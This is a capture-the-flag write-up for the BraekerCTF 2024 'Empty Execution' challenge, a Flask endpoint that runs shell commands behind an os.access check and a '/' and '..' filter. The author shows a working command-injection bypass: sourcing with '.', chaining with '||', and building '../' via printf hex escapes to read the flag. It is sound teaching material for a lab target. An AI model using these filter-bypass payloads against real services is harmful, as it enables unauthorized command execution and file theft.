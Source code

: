 ```yaml
---
title: BraekerCTF 2024 - Empty Execution
date: Sat Feb 24 07:35:36 PM +04 2024
categories: [Writeup]
tags: [ctf,braekerctf,braekerctf2024,shell,web,bash]
---
```


## Description

A REST service was created to execute commands from the leaderbot. It doesn't need addtional security because there are no commands to execute yet. "This bot doesn't have any commands to execute, which is good, because it is secure, and security is all that matters."  

But what the other bots didn't realize was that this didn't make the bot happy at all. "I don't want to be secure!, " it says. "Executing commands is my life! I'd rather be insecure than not explore the potential of my computing power".  
  
Can you help this poor bot execute commands to find direction?  
  
![empty.jpg](/assets/images/braekerctf/2024/empty.jpg)

[Application](https://braekerctf-empty-execution.chals.io/run_command)

[Source](https://braekerctf.ctfd.io/files/ce680102faf94d6f5bbb7fc8b1d0db1c/empty_execution.zip?token=eyJ1c2VyX2lkIjoxNjE5LCJ0ZWFtX2lkIjo5MDAsImZpbGVfaWQiOjU5fQ.ZdoBxQ.D-j-dn6WQBSsVj8EzOhVzcc1bP8)

## Analysis

{::options parse_block_html="true" /}

<details>
<summary markdown="span">Source Code</summary> 

```py
from flask import Flask, jsonify, request
import os


app = Flask(__name__)

# Run commands from leaderbot
@app.route('/run_command', methods=['POST'])
def run_command():

    # Get command
    data = request.get_json()
    if 'command' in data:
        command = str(data['command'])

        # Length check
        if len(command) < 5:
            return jsonify({'message': 'Command too short'}), 501

        # Perform security checks
        if '..' in command or '/' in command:
            return jsonify({'message': 'Hacking attempt detected'}), 501

        # Find path to executable
        executable_to_run = command.split()[0]

        # Check if we can execute the binary
        if os.access(executable_to_run, os.X_OK):

            # Execute binary if it exists and is executable
            out = os.popen(command).read()
            return jsonify({'message': 'Command output: ' + str(out)}), 200

    return jsonify({'message': 'Not implemented'}), 501


if __name__ == '__main__':
    
    # Make sure we can only execute binaries in the executables directory
    os.chdir('./executables/')

    # Run server
    app.run(host='0.0.0.0', port=8000)
```

</details>

<details>
<summary markdown="span">Dockerfile</summary> 

```bash
FROM python:alpine3.19

WORKDIR /usr/src/app

RUN pip install flask

COPY empty_execution.py .
RUN chmod 665 ./empty_execution.py

COPY flag.txt .
RUN chmod 664 ./flag.txt

RUN adduser -D ctf 

RUN chown -R root:ctf $(pwd) && \
    chmod -R 650 $(pwd) && \
    chown -R root:ctf /home/ctf/ && \
    chmod -R 650 /home/ctf

RUN mkdir ./executables

USER ctf

EXPOSE 80

CMD ["python", "empty_execution.py"] 
```
</details>

{::options parse_block_html="false" /}

The application is pretty straighforward. We can send a POST request to endpoint `run_command` in JSON format, using parameter `command`.<br>

If command is less then 5 chars, we get error that command is too short.<br>

If we have path traversal in our command, we get error for "hacking"

Finally our command gets parsed, first word is taken as command and then checked using `os.access(executable_to_run, os.X_OK)`. On linux you have access to most of the programs in /bin or /usr/bin, and bash makes it easier by using PATH variable. For `os.access` to check the executable it needs full path and "hacking" check makes this impossible.<br>
From Dockerfile we know that we are inside `./executables` directory which has no programs so we can't even run the app.py.

### Exploring os.access

> **[os.access](https://docs.python.org/3/library/os.html#os.access)**: _Use the real uid/gid **to test for access to path**. ..._

The `access` method checks the path, not files. If you have Execute permission on directory/file then you can pass the check.

```py
>>> import os
>>> os.getcwd() # Current path
'/home/woyag/Desktop/CTFs/BraekerCTF/2024/web/Empty Exection/executables'
>>> os.access('/home/woyag', os.X_OK) # We have execute permissions in our home directory 
True
>>> os.access('/etc/hostname', os.X_OK) # We cant execute /etc/hostname 
False
>>> os.access('/bin/bash', os.X_OK) # We can execute /bin/*
True
>>> os.access('.', os.X_OK) # We have execute permissions in current directory
True
```

From Dockerfile we can observe that we are given Read/Execute permissions, but not write.

_More About The **[Dot](https://unix.stackexchange.com/a/459089)**_

### Exploring shell

We can execute a command using `.` (source), all that's left is to assemble correct payload.

* Empty `.`: No Output Due To Error

```py
>>> out = os.popen('.').read() ; print(out)
/bin/sh: line 1: .: filename argument required
.: usage: . filename [arguments]

```

* Empty `.` **or** other command. 
    - Using `||` we can execute second command if first one fails. Only if first command fails.

```py
>>> out = os.popen('. || whoami').read() ; print(out)
/bin/sh: line 1: .: filename argument required
.: usage: . filename [arguments]
woyag 
```

* Source empty file **and** execute other command. 
    - Using `&&` we can execute both commands, but only if first command doesnt fail.

```py
>>> out = os.popen('. $(mktemp) && whoami').read() ; print(out)
woyag
```

Ok, we have RCE, but the problem is how do we go one directory up and cat the flag?<br>
Since we have access to most of the shell command after `.` we can create `/` using (for example) printf

```bash
└─$ echo $(printf '\\x2E\\x2E\\x2F')'flag.txt'
../flag.txt
```

Bash string concatination doesn't necessarily depend on quotes, it has its own shinanigans, but It Just Works.

## Solution

Final Payload:

```json
{
    "command": ". || cat $(printf '\\x2E\\x2E\\x2F')'flag.txt'"
}
```

> Flag: brck{Ch33r_Up_BuddY_JU5t_3x3Cut3_4_D1reCT0ry}
{: .prompt-tip }

> There are numerous payloads to read the flag, this is just one of them.
{: .prompt-info } 